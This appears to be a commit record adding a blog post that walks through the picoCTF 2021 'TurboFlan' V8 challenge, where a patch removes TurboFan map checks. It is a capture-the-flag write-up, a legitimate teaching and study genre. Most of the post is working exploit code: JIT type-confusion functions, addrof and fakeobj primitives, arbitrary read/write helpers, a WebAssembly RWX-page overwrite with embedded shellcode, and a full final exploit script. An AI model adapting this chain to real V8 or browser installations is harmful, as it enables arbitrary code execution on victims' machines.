

Before and after one commit to joshdabosh/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 92% size, without its empty margins (8-1030 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
turbofan

````diff
--- /dev/null
+++ b/_posts/2021-04-18-picoctf-turboflan.md
@@ -0,0 +1,397 @@
+---
+layout: post
+title: picoCTF v8 exploitation, part 2
+---
+Previously, I went over how to turn an out of bounds read and write into shellcode execution in picoCTF 2021's [Download Horsepower](https://blog.joshwang.me/2021/04/14/picoctf-horsepower/).
+
+However, that vulnerability was fairly contrived; generally, no sane developer would make a function to unsafely set arbitrary lengths of arrays.
+
+
+It turns out that a lot of v8 exploitation is about tricking the v8 Just-In-Time (JIT) compiler, TurboFan, to make dangerous compiler optimizations which can lead to type confusion.
+
+
+## TurboFlan
+The provided patch removes the calls to `DeoptimizeIfNot(DeoptimizeReason::kWrongMap, ...);` in `EffectControlLinearizer::LowerCheckMaps()`.
+
+v8 is known for its speed, and one way it achieves this is by optimizing hot functions, or functions that get called many times. If it gets called so many times, why not compile it and skip the interpretation each call?
+
+However, such optimization presents the danger of confusing types in passed arguments, So, v8 also includes checks to verify the types of objects that are passed to a JITted function, among other checks too. If a check fails, the optimized code is considered unusable and is "deoptimized", or thrown out.
+
+<!-- more -->
+
+The patch in TurboFlan basically removes the check that the maps are the same across function calls. What this means is that if we get a function to be JITted that expects an argument of type `a`, and then give it an argument of type `b`, the function won't be de-optimized and will treat the argument that is actually type `b` as type `a`.
+
+### debugging setup
+Now comes the confusing part (IMO): getting a JITted function. Honestly, I still do not know the exact determination of whether a function will get JITted or not besides it being "sufficently complex".
+
+But, if JITting wants to seem like a magic black box, we should just treat it as such :P
+
+We can run the d8 binary with certain debug flags to see when things are optimized, deoptimized, and inlined, as well as saving the TurboFan behavior:
+- \-\-shell: opens interactive shell after running our script
+- \-\-trace-opt: traces TurboFan optimization
+- \-\-trace-deopt: traces TurboFan de-optimization
+- \-\-trace-turbo-inlining: traces function inlining
+
+
+### properties of a JSObject
+Simliar to elements, properties are stored in an array that is pointed to by the parent JSObject. Here's the [memory layout of a JSObject](https://medium.com/@bpmxmqd/v8-engine-jsobject-structure-analysis-and-memory-optimization-ideas-be30cfcdcd16) again if you need a refresher. The `properties` pointer is basically the same thing as the `elements` pointer, but for non-numeric properties.
+
+From playing around, I am fairly certain that properties are stored in the array in the order that you set them in the array for some reason.
+
+I.E. `o = {a: 1, b: 2}` will have the packed SMI of `1` and then `2` in the `properties`, not the other way around.
+
+
+### getting a JITted function
+A common method of getting a function to be JITted is to call it many times in a for-loop. However, I found that this would just cause the function to be inlined in the loop, and not compiled by TurboFan. So, I had to call the function 3 times in the for-loop:
+```javascript
+for (var i = 0; i < 0x1000; ++i){
+    f(x)
+    f(x)
+    f(x)
+}
+```
+
+You can see if a function is actually compiled, inlined, or neither by reading the output from running it in d8 with the debug flags.
+
+
+### type confusion 1
+Let's see how we can type confuse JITted functions now that we can pass differently typed arguments to the same JITted function and have it operated on the same.
+
+To start, I made the following function:
+```javascript
+function f(o){
+    o.a *= 2
+    o.c *= 3
+    let t = o.b
+    return ftoi(t)
+}
+```
+
+This function returns the `b` property of `o`.
+
+If we JIT `f` and make it expect an object of `string->float`, it will memorize the offset of `b` and just return the data at `properties+offset`.
+
+An example array is `x = {a:5.5, b:1.1, c:2.2, d:3.3}`.
+
+One caveat is that the float values in `x` aren't stored in IEEE754 representation. Instead, the data at the `properties` pointer is full of *pointers to HeapNumbers*, which contain the actual float value.
+
+A float HeapNumber is laid out like:
+```
++0 <map *>
++4 <64 bits of IEEE 754 float representation>
+```
+
+Recall that an array of floats looks like:
+```
++0 <map *>
++4 <properties *>
++8 <elements *>
+```
+
+If we can confuse a pointer to a HeapNumber with a pointer to an array of floats, we could leak the `elements` and `properties` of it!
+
+To do this, consider the following:
+```javascript
+function f(o){
+    o.a *= 2
+    o.c *= 3
+    let t = o.b
+    return ftoi(t)
+}
+
+x = {a:5.5, b:1.1, c:2.2, d:3.3}
+
+for (var i = 0; i < 0x1000; ++i){
+    f(x)
+    f(x)
+    f(x)
+}
+
+y = {a:5, b:[6.9], c:2}
+
+float_elem = f(y) >> 32n
+float_prop = f(y) & 0xffffffffn
+```
+
+First, `x.b` is a float (1.1), which really means it is a pointer to a HeapNumber within the `properties` pointer of `x`.
+
+Next, `y` is created such that its `properties` will be laid out with the same offsets as `a` (at least until and including `y.b`). However, `y.b` is now an array of floats instead of a HeapNumber containing a single float.
+
+`f()` has been JITted to return `o.b`, so it gets the pointer at `o.b`. It thinks that the value is a HeapNumber, so it returns 64 bits interpreted as an IEEE754 float starting from `+4`.
+
+Now we have leaked the address of the `elements` and `properties` pointer of a float array using type confusion.
+
+### type confusion 2
+Just like how `addrof` and `fakeobj` are somewhat inverses, we can try to invert our first type confusion.
+
+We should try to get a function to write values as a HeapNumber, but trick it into overwriting the `elements` and `properties` of an array.
+
+Fortunately it is pretty easy:
+```javascript
+function g(o, val){
+    o.a *= 2
+    o.c *= 3
+
+    o.b = itof(val)
+}
+
+x = {a:5.5, b:1.1, c:2.2, d:3.3}
+
+for (var i = 0; i < 0x1000; ++i){
+    g(x, 1n)
+    g(x, 1n)
+    g(x, 1n)
+}
+```
+
+I chose `g()` to get JITted. It expects `o.b` to be a HeapNumber, and writes a supplied value to it, even if `o.b` really isn't a HeapNumber.
+
+I made a second array, `y2`, which is the same as `y` but `y2.b` is an array of *objects*, not an array of floats.
+
+### addrof and fakeobj primitives
+
+We can use our float `elements` and `properties` pointer from our first type confusion, and our `g()` function from our second type confusion.
+
+We can overwrite the `elements` and `properties` pointer of y2 to **point to the elements and properties of y**.
+
+```javascript
+y = {a:5, b:[6.9], c:2}
+
+float_elem = f(y) >> 32n
+float_prop = f(y) & 0xffffffffn
+
+
+y2 = {a:5, b:[{}], c:2}
+g(y2, (float_elem << 32n) + float_prop)
+```
+
+`y.b` thinks everything is a float when it accesses its `elements`.
+`y2.b` thinks everything is an object pointer when it accesses its `elements`, but in reality it is accessing the `elements` of `y.b`.
+
+Now, our addrof and fakeobj primitives are very easy:
+```javascript
+function addrof(o){
+    y2.b[0] = o
+    return ftoi(y.b[0]) & 0xffffffffn
+}
+
+function fakeobj(addr){
+    y.b[0] = itof(addr)
+    return y2.b[0]
+}
+```
+
+### controlled read and write
+Same idea as in Download Horsepower. Set up a fake array with a float map, then get a fake object within that float map, and control the `elements` pointer of the fake object.
+
+I took advantage of the fact that the v8 heap is notoriously stable, and the float map is allocated very early on, so the address is likely to not change. Because of pointer compression we don't need to worry about getting the full v8 heap base.
+
+
+```javascript
+c = [itof(0x82439f1n), itof((4n << 32n) + 0x69696969n)]
+
+function read(addr){
+    if (addr % 2n == 0){
+        addr += 1n
+    }
+
+    c[1] = itof((4n << 32n) + addr-8n)
+
+    let fake = fakeobj(addrof(c) + 112n + 8n)
+
+    return ftoi(fake[0])
+}
+
+function heap_write(addr, data){
+    if (addr % 2n == 0){
+        addr += 1n
+    }
+    c[1] = itof((4n << 32n) + addr-8n)
+
+    let fake = fakeobj(addrof(c) + 112n + 8n)
+
+    fake[0] = itof(data)
+}
+```
+
+### arbitrary write
+We can do the same thing we did before in Download Horsepower to get an arbitrary write: modify the backing store of an ArrayBuffer, and write to it.
+
+```javascript
+function arb_write32(addr, data){
+    if (addr % 2n == 1){
+        addr -= 1n
+    }
+
+    let dataview = new DataView(evil_buf)
+
+
+    heap_write(addrof(evil_buf) + 0x14n, addr)
+
+
+    dataview.setBigUint64(0, data, true)
+}
+
+
+evil_buf = new ArrayBuffer(0x100)
+
+print("evil buf @", hex(addrof(evil_buf)))
+```
+
+### remote shellcode execution
+Yet again, we can do the same thing we did for Download Horsepower: overwrite the instructions of a WebAssembly instance to our own shellcode.
+
+```javascript
+var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
+var wasm_mod = new WebAssembly.Module(wasm_code);
+var wasm_instance = new WebAssembly.Instance(wasm_mod);
+var pwn = wasm_instance.exports.main;
+
+rwx_page = read(addrof(wasm_instance) + 103n)
+
+print("rwx @", hex(rwx_page))
+
+shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]
+
+dataview = new DataView(evil_buf)
+heap_write(addrof(evil_buf) + 0x14n, rwx_page)
+
+for(i = 0; i < shellcode.length; ++i){
+    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
+}
+```
+
+### script
+```javascript
+var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
+var wasm_mod = new WebAssembly.Module(wasm_code);
+var wasm_instance = new WebAssembly.Instance(wasm_mod);
+var pwn = wasm_instance.exports.main;
+
+var buf = new ArrayBuffer(8); // 8 byte array buffer
+var f64_buf = new Float64Array(buf);
+var u64_buf = new Uint32Array(buf);
+
+function hex(val){
+    return "0x"+val.toString(16)
+}
+
+function ftoi(val) { // typeof(val) = float
+    f64_buf[0] = val;
+    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
+}
+
+function itof(val) { // typeof(val) = BigInt
+    u64_buf[0] = Number(val & 0xffffffffn);
+    u64_buf[1] = Number(val >> 32n);
+    return f64_buf[0];
+}
+
+
+function f(o){
+    o.a *= 2
+    o.c *= 3
+    let t = o.b
+    return ftoi(t)
+}
+
+function g(o, val){
+    o.a *= 2
+    o.c *= 3
+
+    o.b = itof(val)
+}
+
+x = {a:5.5, b:1.1, c:2.2, d:3.3}
+
+for (var i = 0; i < 0x1000; ++i){
+    f(x)
+    f(x)
+    f(x)
+
+    g(x, 1n)
+    g(x, 1n)
+    g(x, 1n)
+}
+
+y = {a:5, b:[6.9], c:2}
+
+float_elem = f(y) >> 32n
+float_prop = f(y) & 0xffffffffn
+
+y2 = {a:5, b:[{}], c:2}
+g(y2, (float_elem << 32n) + float_prop)
+
+function addrof(o){
+    y2.b[0] = o
+    return ftoi(y.b[0]) & 0xffffffffn
+}
+
+function fakeobj(addr){
+    y.b[0] = itof(addr)
+    return y2.b[0]
+}
+
+c = [itof(0x82439f1n), itof((4n << 32n) + 0x69696969n)]
+
+
+function read(addr){
+    if (addr % 2n == 0){
+        addr += 1n
+    }
+
+    c[1] = itof((4n << 32n) + addr-8n)
+
+    let fake = fakeobj(addrof(c) + 112n + 8n)
+
+    return ftoi(fake[0])
+}
+
+function heap_write(addr, data){
+    if (addr % 2n == 0){
+        addr += 1n
+    }
+    c[1] = itof((4n << 32n) + addr-8n)
+
+    let fake = fakeobj(addrof(c) + 112n + 8n)
+
+    fake[0] = itof(data)
+}
+
+
+function arb_write32(addr, data){
+    if (addr % 2n == 1){
+        addr -= 1n
+    }
+
+    let dataview = new DataView(evil_buf)
+
+
+    heap_write(addrof(evil_buf) + 0x14n, addr)
+
+
+    dataview.setBigUint64(0, data, true)
+}
+
+
+evil_buf = new ArrayBuffer(0x100)
+
+print("evil buf @", hex(addrof(evil_buf)))
+
+rwx_page = read(addrof(wasm_instance) + 103n)
+
+print("rwx @", hex(rwx_page))
+
+shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]
+
+dataview = new DataView(evil_buf)
+heap_write(addrof(evil_buf) + 0x14n, rwx_page)
+
+for(i = 0; i < shellcode.length; ++i){
+    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
+}
+
+pwn()
+```
+
+Flag: `picoCTF{Good_job!_Now_go_find_a_real_v8_cve!_4f2661eab1a80e33}`
````
Also changed, not shown: _posts/2021-04-14-picoctf-horsepower.md (+0 -1 lines).
